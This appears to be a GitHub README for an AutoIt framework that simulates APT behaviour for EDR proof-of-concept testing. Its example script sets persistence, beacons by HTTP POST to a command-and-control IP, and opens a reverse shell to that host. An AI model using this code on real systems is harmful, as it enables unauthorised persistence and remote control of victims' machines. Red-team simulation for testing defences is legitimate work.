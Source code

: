# APT SimulActor

## Introduction

Targeted attacks are not random in nature and are usually composed of different phases like infection, data exfiltration and persistency.
APT SimulActor is a little framework based on AutoIT libraries for basic EDR POCs.

## Example Code
```
#include "APT-SimulActor.au3"

$victim = "john"
$c2_ip = "192.168.231.106"
$c2_port = "444"
$timer = 60

init()

if InternetCheck() Then

   If numberOfLogins(whoami()) > 2 Then

	  Move2Temp()

	  SetPersistent4CurrentUser()

	  While $timer > 0

		 HttpPost($c2_ip, "Timer:", $timer)
		 Sleep(1000)
 		 $timer = $timer - 1

	  WEnd

	  ReverseShell($c2_ip, $c2_port)

   EndIf

EndIf
```



## Prerequisites

AutoIt Downloads [link](https://www.autoitscript.com/site/autoit/downloads/)

## Disclaimer

The APT-SimulActor use requires authorization from proper stakeholders. Author and Contributors will not be responsible for the malfunctioning or weaponization of the tool.
